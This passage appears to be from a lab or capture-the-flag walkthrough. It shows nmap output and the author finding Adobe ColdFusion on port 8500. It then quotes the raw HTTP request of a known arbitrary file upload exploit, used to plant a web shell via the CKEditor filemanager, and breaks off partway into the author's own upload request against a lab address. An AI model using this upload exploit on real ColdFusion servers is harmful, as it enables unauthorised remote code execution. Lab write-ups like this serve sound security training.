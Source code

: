 ```
49152/tcp open  unknown            syn-ack ttl 127
49153/tcp open  unknown            syn-ack ttl 127
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  unknown            syn-ack ttl 127
49161/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 12 13:23:12 2020 -- 1 IP address (1 host up) scanned in 318.49 seconds
```

### COLDFUSION

This actually took me some time to find. To my mistake I relied on the version scan from nmap, which was incredbly wrong. And since the "/" directory of the website was returning a 404 I had no thoughts to double check at first. After checking around all the other ports, I came back and checked on speedguide.net to see that there is some recognisible services that usually run on [port 8500](https://www.speedguide.net/port.php?port=8500).

After googling on this port and exploits I can use for it, I found a Arbitrary upload exploit which I will try next. The exploit in question can be found [here](https://www.exploit-db.com/exploits/45979). 
```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm
HTTP/1.1
Host: coldfusion:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/62.0.3202.9 Safari/537.36
Content-Type: multipart/form-data;
boundary=---------------------------24464570528145
Content-Length: 303
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------24464570528145
Content-Disposition: form-data; name="file"; filename="shell_file"
Content-Type: image/jpeg

%shell code here%
-----------------------------24464570528145
Content-Disposition: form-data; name="path"

shell
-----------------------------24464570528145--


a shell will be located here http://coldfusion:port/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell_file
```

So using this, I will be uploading a jsp file which will return us a shell on the box:
```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 172.31.1.15:8500
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------24464570528145
Content-Length: 1854

```